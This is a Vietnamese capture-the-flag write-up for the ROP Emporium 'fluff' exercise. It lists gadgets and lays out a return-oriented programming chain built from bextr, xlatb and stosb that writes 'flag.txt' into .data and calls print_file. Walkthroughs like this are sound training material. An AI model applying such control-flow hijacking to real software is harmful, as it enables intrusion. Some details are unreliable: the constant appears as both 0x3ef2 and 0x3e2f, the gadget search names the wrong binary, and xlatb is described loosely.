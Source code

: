 
## Fluff
Challenge 6 tương tự challenge 4 Write 4 nhưng ta sẽ dùng các gadget mới hơn để xây dựng ROP chain

Tiến hành lấy các gadget cần thiết

```text-plain
 $ rabin2 -i fluff
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
...
4   0x00400510 GLOBAL FUNC       print_file

$ rabin2 -S fluff
[Sections]
nth paddr        size vaddr       vsize perm name
―――――――――――――――――――――――――――――――――――――――――――――――――
23  0x00001028   0x10 0x00601028   0x10 -rw- .data

$ python3 Ropper.py -f badchars
...
0x000000000040062a: pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx; ret; 
0x0000000000400639: stosb byte ptr [rdi], al; ret; 
0x0000000000400628: xlatb; ret;
0x00000000004006a3: pop rdi; ret;
0x0000000000400295: ret;
```

Ở đây ta thiếu các gadget như challenge 4 để truyền string “flag.txt” vào .data section.

Ta dùng gadget `stosb byte ptr [rdi], al; ret;` để truyền giá trị thanh ghi `al` vào `[rdi]` với rdi là địa chỉ section .data được control bằng gadget  `pop rdi; ret;`. Lưu ý rdi sẽ tự add 0x1 vào mỗi lần thực thi gadget này

Để control thanh ghi `al` ta sử dụng gadget `xlatb; ret;` xlatb sẽ tương đương gán `al = rbx + al`. Do đó khi control được `rbx` ta sẽ  điều chỉnh được thanh ghi `al` [https://www.felixcloutier.com/x86/xlat:xlatb](https://www.felixcloutier.com/x86/xlat:xlatb)

Để control rbx ta sẽ dùng gadget `pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx; ret;`, với instruction `bextr rbx, rcx, rdx; ret;` sẽ trích xuất các bit liên tục từ start `rcx` với length `rdx` (rcx lấy bit từ 0:7, rdx lấy bit từ 8:15)

Ta xây dựng stack như sau

```text-plain
[A*8  ]
[.....]
[A*8  ] -> 40*A
[0x4006a3] -> pop rdi; ret;
[0x601028] -> -rw- .data -> control rdi cho gadget stosb
---> Control al, lấy từng ký tự 'flag.txt'
[0x40062a] -> pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx; ret;
[0x4000] -> rdx -> length bit [8:15] = 0x40 (8 bits = 1 byte)
[base + index - 0x3ef2 - current_al] -> base + index là vị trí của từng ký tự 'flag.txt' trong binary, ta phải cộng thêm giá trị hiện tại của al vì xlatb sẽ là al := rbx + al và trừ đi 0x3e2f do instruction 'add rcx, 0x3ef2' khi đó al := giá trị tại vị trí của 'flag.txt'
[0x400628] -> xlatb; ret;
[0x400639] -> stosb byte ptr [rdi], al; ret; 
----> Sau khi lấy hết ký tự 'flag.txt' vào rdi, ta truyền vào hàm print_file()
[0x4006a3] -> pop rdi; ret;
[0x400295] -> ret;
[0x400510] -> print_file();
```
